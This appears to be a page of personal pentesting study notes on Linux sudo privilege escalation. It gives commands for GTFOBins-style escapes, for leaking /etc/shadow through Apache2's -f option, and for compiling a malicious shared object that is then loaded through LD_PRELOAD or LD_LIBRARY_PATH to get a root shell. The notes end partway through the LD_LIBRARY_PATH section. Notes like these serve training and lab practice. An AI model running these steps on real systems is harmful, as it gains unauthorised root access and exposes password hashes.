 Execute a file like the owner
```shell
sudo -u USERNAME ./script.sh
```
### Shell Escape Sequences
- [https://gtfobins.github.io/](https://gtfobins.github.io/)
- [[sudo -l\|sudo -l]]
### Leverage application functions
- Some applications will not have a known exploit within this context.
- we can use a "hack" to leak information **leveraging a function of the application.**

Example: Apache2 ant the `-f` parameter used to load the `/etc/shadow`, this will result in an error message that includes the first line of the `/etc/shadow` file.
### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

### sudo Environment Variables

</div>


- Sudo can be configured to **inherit** certain environment **variables from the user**'s environment.
- Check which environment variables are inherited (look for the env_keep options):
```shell
sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```
- LD_PRELOAD and LD_LIBRARY_PATH are both **inherited from the user's environment**.
- LD_PRELOAD loads a shared object before any others when a program is run.
- LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
### LD_PRELOAD
- Create a shared object using the code located at /home/user/tools/sudo/[[preload.c\|preload.c]]:
```shell
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
- Run one program (listed when running **sudo -l**), while setting the LD_PRELOAD environment variable to the full path of the new shared object:
- A root shell should spawn.
```shell
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
### LD_LIBRARY_PATH
Run ldd against the apache2 program file to see which shared libraries are used by the program:
```shell
ldd /usr/sbin/apache2
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/[[library_path.c\|library_path.c]]:
```shell
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
